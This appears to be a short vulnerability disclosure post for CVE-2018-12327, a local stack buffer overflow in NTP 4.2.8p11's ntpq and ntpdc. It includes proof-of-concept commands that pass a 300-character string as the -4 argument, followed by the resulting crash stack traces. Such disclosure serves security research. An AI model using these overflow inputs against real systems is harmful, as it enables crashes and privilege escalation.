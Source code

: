 ```yaml
---
layout: post
title: "[CVE-2018-12327] ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
comments: true
description: "ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
keywords: "ntpq, ntpdc, buffer overflow"
---
```


Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>

```
$ ./ntpq -4 [`python -c 'print "A" * 300’`]

#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)

$ ./ntpdc -4 [`python -c 'print "A" * 300'`]

#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)
```

